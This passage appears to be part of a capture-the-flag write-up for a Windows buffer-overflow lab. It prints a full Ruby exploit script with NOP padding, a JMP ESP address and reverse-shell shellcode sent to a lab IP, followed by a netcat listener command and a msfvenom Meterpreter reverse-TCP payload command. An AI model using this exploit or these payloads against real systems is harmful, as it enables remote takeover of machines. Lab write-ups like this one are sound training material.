 the code for bof.rb is now complete!

```ruby
buff = "\x90"*146 #NOP slide, forces the program to start right after the offset.
buff+= "\xc3\x14\x04\x08" #JMP ESP
buff+= "B"*10 #additional NOPs for argument values
buff+= ""\xdb\xc8\xb8\xf3\x0f\xd1\xd9\xd9\x74\x24\xf4\x5d\x29\xc9" +
"\xb1\x52\x83\xc5\x04\x31\x45\x13\x03\xb6\x1c\x33\x2c\xc4" +
"\xcb\x31\xcf\x34\x0c\x56\x59\xd1\x3d\x56\x3d\x92\x6e\x66" +
"\x35\xf6\x82\x0d\x1b\xe2\x11\x63\xb4\x05\x91\xce\xe2\x28" +
"\x22\x62\xd6\x2b\xa0\x79\x0b\x8b\x99\xb1\x5e\xca\xde\xac" +
"\x93\x9e\xb7\xbb\x06\x0e\xb3\xf6\x9a\xa5\x8f\x17\x9b\x5a" +
"\x47\x19\x8a\xcd\xd3\x40\x0c\xec\x30\xf9\x05\xf6\x55\xc4" +
"\xdc\x8d\xae\xb2\xde\x47\xff\x3b\x4c\xa6\xcf\xc9\x8c\xef" +
"\xe8\x31\xfb\x19\x0b\xcf\xfc\xde\x71\x0b\x88\xc4\xd2\xd8" +
"\x2a\x20\xe2\x0d\xac\xa3\xe8\xfa\xba\xeb\xec\xfd\x6f\x80" +
"\x09\x75\x8e\x46\x98\xcd\xb5\x42\xc0\x96\xd4\xd3\xac\x79" +
"\xe8\x03\x0f\x25\x4c\x48\xa2\x32\xfd\x13\xab\xf7\xcc\xab" +
"\x2b\x90\x47\xd8\x19\x3f\xfc\x76\x12\xc8\xda\x81\x55\xe3" +
"\x9b\x1d\xa8\x0c\xdc\x34\x6f\x58\x8c\x2e\x46\xe1\x47\xae" +
"\x67\x34\xc7\xfe\xc7\xe7\xa8\xae\xa7\x57\x41\xa4\x27\x87" +
"\x71\xc7\xed\xa0\x18\x32\x66\xc5\xce\x30\x4a\xb1\xec\x48" +
"\xa7\xf2\x78\xae\xad\xe4\x2c\x79\x5a\x9c\x74\xf1\xfb\x61" +
"\xa3\x7c\x3b\xe9\x40\x81\xf2\x1a\x2c\x91\x63\xeb\x7b\xcb" +
"\x22\xf4\x51\x63\xa8\x67\x3e\x73\xa7\x9b\xe9\x24\xe0\x6a" +
"\xe0\xa0\x1c\xd4\x5a\xd6\xdc\x80\xa5\x52\x3b\x71\x2b\x5b" +
"\xce\xcd\x0f\x4b\x16\xcd\x0b\x3f\xc6\x98\xc5\xe9\xa0\x72" +
"\xa4\x43\x7b\x28\x6e\x03\xfa\x02\xb1\x55\x03\x4f\x47\xb9" +
"\xb2\x26\x1e\xc6\x7b\xaf\x96\xbf\x61\x4f\x58\x6a\x22\x7f" +
"\x13\x36\x03\xe8\xfa\xa3\x11\x75\xfd\x1e\x55\x80\x7e\xaa" +
"\x26\x77\x9e\xdf\x23\x33\x18\x0c\x5e\x2c\xcd\x32\xcd\x4d" +
"\xc4"" #shellcode

require 'socket'
TCPSocket.open("10.10.10.172",31337){ |s| s.puts buff}
```

before executing this script, i'll set up a netcat listener that can receive the reverse shell.

```nc -lvnp 4444```

if, for whatever reason, the port is clogged, i can simply hard kill the process running on it:

```
kill -9 $(lsof -t -i:4444)
```

execute the script using ```ruby bof.rb``` and a shell will have spawned in the netcat session. the flag is stored on the desktop.

![natbat](/gatekeeper_natbat.png)

a quick check of the user's privileges shows that i don't have any special access, so here comes the privilege escalation portion of the challenge.

![whoami](/gatekeeper_whoami.png)

i'll create another shellcode, but this time i want to upgrade it to a meterpreter shell.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local IP> LPORT=5555 -f rb -b "\x00\x0a"
```

in another terminal window, i'll run the metasploit console to run the handler.

![handler](/gatekeeper_handler.png)
```